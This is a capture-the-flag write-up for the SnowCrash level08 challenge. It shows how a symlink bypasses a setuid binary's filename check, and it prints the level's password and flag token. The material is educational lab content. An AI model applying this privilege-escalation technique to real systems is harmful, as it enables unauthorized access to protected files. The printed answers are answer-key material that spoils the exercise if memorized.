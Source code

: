 
# Privilege escalation via symlink (no check on real user)

```level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token

```

we have level08 and token as potentially interesting files

```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

we make a symbolic link to /tmp

```
ln -s /home/user/level08/token /tmp/flag08

level08@SnowCrash:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean

level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
```

```
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```